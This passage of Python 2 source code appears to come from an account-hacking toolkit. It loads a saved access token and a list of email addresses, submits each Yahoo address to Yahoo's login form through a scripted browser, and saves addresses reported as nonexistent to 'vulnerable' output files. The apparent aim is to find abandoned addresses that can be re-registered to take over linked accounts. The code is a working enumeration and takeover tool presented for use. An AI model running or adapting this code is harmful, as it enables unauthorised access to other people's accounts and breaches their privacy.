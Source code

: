 				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+nama)
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/GrupMailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()
		
##### YAHOO FILE #####
def yahoolist():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	files = raw_input("\033[1;91m[+] \033[1;92mFile path \033[1;91m: \033[1;97m")
	try:
		total = open(files,"r")
		mail = total.readlines()
	except IOError:
		print"\033[1;91m[!] File not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	mpsh = []
	jml = 0
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	save = open('out/FileMailVuln.txt','w')
	print 42*"\033[1;97m═"
	mail = open(files,"r").readlines()
	for pw in mail:
		mail = pw.replace("\n","")
		jml +=1
		mpsh.append(jml)
		yahoo = re.compile(r'@.*')
		otw = yahoo.search(mail).group()
		if 'yahoo.com' in otw:
			br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
			br._factory.is_html = True
			br.select_form(nr=0)
			br["username"] = mail
			klik = br.submit().read()
			jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
			try:
				pek = jok.search(klik).group()
			except: